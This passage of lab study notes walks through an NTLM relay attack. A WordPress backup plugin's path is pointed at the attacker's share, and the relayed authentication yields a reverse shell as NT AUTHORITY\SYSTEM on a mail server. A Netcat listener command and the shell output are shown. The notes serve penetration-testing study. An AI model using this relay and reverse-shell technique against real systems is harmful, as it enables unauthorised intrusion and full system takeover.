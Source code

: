 ```
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Next, we'll set up a Netcat listener on port 9999 for the incoming reverse shell
```
kali@kali:~/beyond$ nc -nvlp 9999
listening on [any] 9999 ...
```

Now with everything set up, we can modify the _Backup directory path_
+ Let's set the path to the _URI reference_ **`//192.168.119.5/test`** in which the IP is the address of our Kali machine and **test** is a nonexistent path
![[Pasted image 20240108172234.png]]

Once entered, we can scroll down and click on _Save_
+ This should cause the WordPress plugin to authenticate to impacket-ntlmrelayx in the context of the user running WordPress
```
...
[*] Authenticating against smb://192.168.50.242 as INTERNALSRV1/ADMINISTRATOR SUCCEED
...
[*] Service RemoteRegistry is in stopped state
...
[*] Starting service RemoteRegistry
...
[*] Executed specified command on host: 192.168.50.242
...
[*] Stopping service RemoteRegistry
```
+ Above confirms the assumptions we made earlier
+ First, _INTERNALSRV1/ADMINISTRATOR_ was used to perform the authentication
+ Second, by successfully authenticating to MAILSRV1, we confirmed that both machines use the same password for the local _Administrator_ account

The output also states that the relayed command on MAILSRV1 got executed
+ Let's check our Netcat listener for an incoming reverse shell:
```
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 50063
whoami
nt authority\system

PS C:\Windows\system32> hostname
MAILSRV1

PS C:\Windows\system32> 
```
+ We successfully obtained code execution as _NT AUTHORITY\SYSTEM_ by authenticating as a local _Administrator_ on MAILSRV1 by relaying an authentication attempt from the WordPress plugin on INTERNALSRV1

